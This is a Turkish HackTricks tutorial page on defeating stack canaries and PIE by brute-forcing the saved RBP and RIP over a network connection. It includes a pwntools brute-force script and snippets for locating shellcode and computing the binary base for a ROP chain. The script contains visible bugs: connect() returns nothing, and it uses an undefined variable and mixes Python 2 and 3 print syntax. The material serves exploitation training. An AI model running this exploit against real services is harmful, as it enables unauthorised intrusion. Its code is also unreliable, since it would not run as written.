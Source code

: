 # Yığın İçindeki BF Adresleri

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

**Eğer bir canary ve PIE (Pozisyona Bağımsız İkili) ile korunmuş bir ikili ile karşılaşıyorsanız, bunları aşmanın bir yolunu bulmanız gerekecektir.**

![](<../../../.gitbook/assets/image (865).png>)

{% hint style="info" %}
**`checksec`**'in bir ikilinin canary ile korunduğunu bulamayabileceğini unutmayın, eğer bu statik olarak derlenmişse ve fonksiyonu tanımlama yeteneği yoksa.\
Ancak, bir fonksiyon çağrısının başında yığında bir değerin kaydedildiğini ve bu değerin çıkmadan önce kontrol edildiğini bulursanız bunu manuel olarak fark edebilirsiniz.
{% endhint %}

## Brute-Force Adresleri

**PIE'yi aşmak için** bazı **adresleri sızdırmanız** gerekiyor. Ve eğer ikili herhangi bir adres sızdırmıyorsa, en iyi yol, **savunmasız fonksiyondaki yığında kaydedilen RBP ve RIP'yi brute-force yapmaktır.**\
Örneğin, bir ikili hem **canary** hem de **PIE** kullanılarak korunuyorsa, önce canary'yi brute-force yapmaya başlayabilirsiniz, ardından **sonraki** 8 Byte (x64) kaydedilen **RBP** ve **sonraki** 8 Byte kaydedilen **RIP** olacaktır.

{% hint style="success" %}
Yığında bulunan dönüş adresinin ana ikili koduna ait olduğu varsayılmaktadır; bu, eğer zafiyet ikili kodda yer alıyorsa genellikle böyle olacaktır.
{% endhint %}

İkili dosyadan RBP ve RIP'yi brute-force yapmak için, program bir şey çıktığında veya sadece çökmediğinde geçerli bir tahmin edilen byte'ın doğru olduğunu anlayabilirsiniz. Canarı brute-force yapmak için sağlanan **aynı fonksiyonu** RBP ve RIP'yi brute-force yapmak için kullanabilirsiniz:
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

# CANARY BF HERE
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary

# PIE BF FROM HERE
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
Son PIE'yi yenmek için ihtiyacınız olan son şey, **sızan** adreslerden **yararlı adresleri hesaplamaktır**: **RBP** ve **RIP**.

**RBP**'den, **yığın içinde shell'inizi nereye yazdığınızı** hesaplayabilirsiniz. Bu, yığın içinde _"/bin/sh\x00"_ dizesini nereye yazacağınızı bilmek için çok yararlı olabilir. Sızan RBP ile shellcode'unuz arasındaki mesafeyi hesaplamak için, **RBP'yi sızdırdıktan sonra bir kesme noktası koyabilir** ve **shellcode'unuzun nerede bulunduğunu kontrol edebilirsiniz**, ardından shellcode ile RBP arasındaki mesafeyi hesaplayabilirsiniz:
```python
INI_SHELLCODE = RBP - 1152
```
**RIP**'ten **PIE ikili dosyasının temel adresini** hesaplayabilirsiniz, bu da **geçerli bir ROP zinciri** oluşturmak için gerekecektir.\
Temel adresi hesaplamak için sadece `objdump -d vunbinary` komutunu çalıştırın ve en son adresleri kontrol edin:

![](<../../../.gitbook/assets/image (479).png>)

Bu örnekte, tüm kodu bulmak için yalnızca **1 Byte ve yarım** gerektiğini görebilirsiniz, bu durumda temel adres **sızdırılan RIP ama "000" ile biten** olacaktır. Örneğin, `0x562002970ecf` sızdırdıysanız, temel adres `0x562002970000`'dır.
```python
elf.address = RIP - (RIP & 0xfff)
```
## İyileştirmeler

[**bu gönderiden bazı gözlemlere**](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#extended-brute-force-leaking) göre, RBP ve RIP değerlerini sızdırırken, sunucunun bazı doğru olmayan değerlerle çökmesi mümkün olmayabilir ve BF scripti doğru olanları aldığını düşünebilir. Bunun nedeni, **bazı adreslerin tam olarak doğru olmasa bile bunu kırmaması**dır.

O blog gönderisine göre, sunucuya yapılan istekler arasında kısa bir gecikme eklenmesi önerilmektedir.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
